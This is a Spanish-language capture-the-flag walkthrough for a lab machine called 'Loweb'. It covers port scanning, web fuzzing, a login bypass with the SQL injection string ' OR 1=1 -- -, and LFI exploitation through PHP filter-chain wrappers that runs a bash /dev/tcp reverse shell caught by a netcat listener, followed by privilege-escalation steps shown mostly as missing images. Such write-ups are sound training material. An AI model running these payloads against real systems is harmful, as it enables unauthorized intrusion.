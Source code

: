 # Máquina Loweb

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.135

![alt text](image-1.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 vvv -Pn 192.168.42.135

![alt text](image-2.png)



### Fuzzing Web

gobuster dir -t 200 -u http://192.168.42.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-3.png)

Fuzzing web a library

gobuster dir -t 200 -u http://192.168.42.135/library/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-4.png)

### Accedemos a /library/admin

Nos encontramos con un formulario de login que fácilmente podemos ingresar utilizando ' OR 1=1 -- -

![alt text](image-5.png)

Inicio de sesión exitoso:

![alt text](image-6.png)

### Explotación

inspeccionamos la página con ctrl + u y encontramos un LFI:

![alt text](image-7.png)

Usando wrappers con la herramienta php_filter_chain_generator 

pasos a seguir:

a.- Creamos una reverse shell llamada r con el siguiente contenido:

nano r

bash -i >& /dev/tcp/192.168.42.133/443 0>&1 

![alt text](image-8.png)

b.- Iniciamos un servidor web con python en la carpeta donde creamos el r

python3 -m http.server 80

![alt text](image-9.png)

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. En la carpeta php_filter_chain_generator, ejecutamos

![alt text](image-11.png)

generará un wrapper

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://192.168.42.135/library/admin/index.php?lang=wrapper

f.- Tenemos acceso

![alt text](image-10.png)

### Escalar privilegios

En el directorio home hay 1 usuario

![alt text](image-12.png)


busqué en todos los archivos desde la raíz para ver encuentro alguna contraseña:

![alt text](image-13.png)

cambiamos al usuario r3dh4ck

![alt text](image-14.png)

sudo -l

![alt text](image-15.png)

![alt text](image-16.png)